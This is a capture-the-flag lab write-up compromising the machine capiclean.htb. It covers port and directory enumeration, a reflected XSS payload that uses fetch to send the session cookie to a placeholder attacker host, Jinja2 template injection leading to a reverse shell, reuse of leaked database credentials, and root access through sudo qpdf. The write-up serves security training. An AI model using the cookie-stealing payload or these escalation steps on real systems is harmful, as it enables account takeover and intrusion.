I began the engagement by performing a full TCP port scan to identify exposed services on the target host.
nmap 10.10.11.12 -sS -T4 -A -p- -oN scan.txt
The scan revealed two services running on the system: SSH on port 22 and an HTTP service on port 80. Based on the HTTP response headers and behavior, I identified a domain name associated with the application and added it to my local /etc/hosts file to ensure proper name resolution.

With the web application identified as the main attack surface, I used ffuf to enumerate potential endpoints and directories that could expose additional functionality.
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://capiclean.htb/FUZZ -fc 404
One of the discovered endpoints was /quote, which appeared to reflect user input. This behavior suggested a potential cross-site scripting vulnerability, so I intercepted the request and response using Burp Suite for further inspection.

By analyzing the intercepted traffic, I confirmed that the service parameter was vulnerable to reflected XSS.

To exploit this, I injected the following payload into the vulnerable parameter in order to exfiltrate the victim’s session cookie:
<img src=x onerror=fetch("http://<IP>:<PORT>/"+document.cookie);>To ensure correct processing by the application, the payload was encoded in Base64. After submitting the request, I received a callback containing the session cookie:
GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZkpGCg.Uxy5EDul_e-QG6dvNx-kwNyhzBo HTTP/1.1This cookie appeared to belong to a privileged user and could potentially be used to bypass authentication.

Since there was no direct way to supply the cookie through the application interface, I injected it manually using a browser cookie editor extension.

Once the cookie was set, I was able to access the administrative dashboard successfully.
http://capiclean.htb/dashboard
From the dashboard, I generated an invoice ID and then used that ID in the QR code generation feature.

After generating the QR code, the application provided a URL associated with it.

By visiting the QR URL, I was presented with the corresponding invoice.

I intercepted the POST request generated when submitting the QR generation form to analyze how the data was processed server-side.

The endpoint /QRGenerator appeared to be implemented using Flask. Since Flask uses Jinja2 as its templating engine, I suspected a Server-Side Template Injection vulnerability if user input was not properly sanitized.


Testing with a basic arithmetic payload confirmed the vulnerability, as the server evaluated the expression and returned the expected result.

With SSTI confirmed, I leveraged a known Jinja2 exploitation technique to achieve remote code execution. The payload was adapted from the following reference:
https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
The reverse shell portion of the payload was URL-encoded to ensure proper delivery. Upon submission, I received a reverse shell as the www-data user.
During post-exploitation enumeration, I discovered that the app.py file leaked database credentials in clear text.

Using these credentials, I connected to the MySQL database and enumerated the stored user hashes.
mysql -u <user> -p <password>
Among the retrieved hashes were entries for the users consuela and Administrator. Since consuela was the only non-system user with a home directory, I focused on that account. I cracked the hash using CrackStation and authenticated successfully via SSH.

After logging in as Consuela, I checked for sudo permissions to identify potential privilege escalation vectors.
sudo -l
The output showed that I could execute /usr/bin/qpdf as root without providing a password.

By abusing this permission, I was able to copy the root user’s private SSH key into a writable directory such as /tmp.

Using the extracted key, I authenticated as the root user via SSH. In cases where access to the key was restricted, adjusting the file permissions was sufficient to complete the process.
